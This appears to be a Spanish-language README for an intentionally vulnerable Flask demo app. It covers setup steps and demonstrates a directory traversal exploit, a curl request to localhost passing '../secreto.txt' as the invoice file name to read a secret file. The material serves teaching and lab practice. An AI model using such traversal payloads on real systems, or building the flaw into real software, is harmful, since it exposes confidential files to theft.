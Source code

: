 
## 🚀 Instalación y Uso

### Requisitos
- Python 3.7+
- Flask

### Instalación

bash
# Clonar o descargar el proyecto
cd flask-vulnerable-app

# Instalar dependencias
pip install flask

# Crear archivos de ejemplo
echo "Esto es información confidencial!" > secreto.txt
mkdir -p invoices
touch invoices/factura01.pdf
touch invoices/factura02.pdf
touch invoices/factura03.pdf
touch invoices/factura04.pdf
touch invoices/factura05.pdf


### Ejecutar la aplicación

bash
python app.py


La aplicación estará disponible en http://localhost:5000

## 🔓 Demostración del Exploit

### Uso Normal (sin exploit)
bash
# Descargar una factura legítima
curl "http://localhost:5000/download-invoice?file=factura01.pdf" -o factura01.pdf


### Exploit: Directory Traversal
bash
# VULNERABILIDAD: Acceder al archivo secreto usando ../
curl "http://localhost:5000/download-invoice?file=../secreto.txt" -o secreto_robado.txt
